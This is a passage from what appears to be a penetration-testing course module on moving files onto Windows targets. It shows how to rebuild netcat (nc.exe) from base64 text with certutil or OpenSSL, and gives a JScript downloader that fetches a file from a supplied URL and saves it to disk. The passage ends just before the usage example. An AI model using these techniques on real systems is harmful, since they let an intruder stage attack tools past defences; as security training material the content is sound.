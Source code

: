 ````bash
Find:\n
Replace:echo "
````

![echo](https://academy.hackthebox.com/storage/modules/24/find-replace.png)

The first line doesn’t contain this, so we can manually prepend **echo "** to the first line. Next, we replace **\r** with **" >> nc.txt\r**.

````bash
Find:\r
Replace:" >> nc.txt\r
````
![netcat](https://academy.hackthebox.com/storage/modules/24/find_replace2.png)

If the last line has an **echo "** on its own, remove it.

Next, copy all the text, and paste it into the shell, pressing enter if needed on the last command. This time, use the -decode certutil switch to convert the base64 text back to binary.

````powershell
certutil.exe -decode nc.txt nc.exe
cmd /c "nc.exe -h 2>&1"
````

## OpenSSL base64
If OpenSSL is available on the target system, this can also be used to encode and decode the data in place of certutil.

### Encryption
````bash
openssl.exe enc -base64 -in nc.exe -out nc.txt
````
### Decryption
````powershell
openssl.exe enc -base64 -d -in nc.txt -out nc.exe
````
## JavaScript
The following JavaScript, based on this post, can be used.

````javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
````
It can be executed as follows.
